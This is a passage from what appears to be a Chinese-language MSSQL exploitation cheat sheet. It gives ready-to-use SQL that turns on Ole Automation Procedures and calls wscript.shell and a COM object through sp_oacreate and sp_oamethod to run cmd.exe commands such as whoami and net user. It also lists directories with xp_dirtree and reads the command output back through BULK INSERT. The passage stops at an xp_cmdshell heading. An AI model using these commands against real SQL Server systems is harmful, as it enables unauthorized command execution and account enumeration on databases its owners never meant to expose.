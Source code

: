 2. 命令执行

```sql

# wscript.shell组件
declare @luan int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate 'wscript.shell',@luan output
exec sp_oamethod @luan,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;

# com组件
declare @luan int,@exec int,@text int,@str varchar(8000)
exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@luan output
exec sp_oamethod @luan,'exec',@exec output,'C:\\Windows\\System32\\cmd.exe /c whoami'
exec sp_oamethod @exec, 'StdOut', @text out
exec sp_oamethod @text, 'readall', @str out
select @str;
```



# 进阶利用

##  3. <a name='xp_dirtree'></a>xp_dirtree
xp_dirtree有三个参数，
要列的目录
是否要列出子目录下的所有文件和文件夹，默认为0，如果不需要设置为1
是否需要列出文件，默认为不列，如果需要列文件设置为1

```sql
xp_dirtree 'c:\', 1, 1      #列出当前目录下所有的文件和文件夹
```
##  4. <a name='sp_oacreate'></a>sp_oacreate
sp_oacreate系统存储过程可以用于对文件删除、复制、移动等操作，还可以配合sp_oamethod系统存储过程调用系统wscript.shell来执行系统命令。sp_oacreate和sp_oamethod两个过程分别用来创建和执行脚本语言。
```sql
#判断sp_oacreate状态
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'
#开启sp_oacreate  
exec sp_configure 'show advanced options', 1;RECONFIGURE
exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE
```
```sql
#执行命令
declare @o int;
exec sp_oacreate 'wscript.shell',@o out;
exec sp_oamethod @o,'run',null,'cmd /c mkdir c:\temp';
exec sp_oamethod @o,'run',null,'cmd /c "net user" > c:\temp\user.txt';
create table cmd_output (output text);
BULK INSERT cmd_output FROM 'c:\temp\user.txt' WITH (FIELDTERMINATOR='n',ROWTERMINATOR = 'nn')      -- 括号里面两个参数是行和列的分隔符，随便写就行
select * from cmd_output
```
##  5. <a name='xp_cmdshell'></a>xp_cmdshell
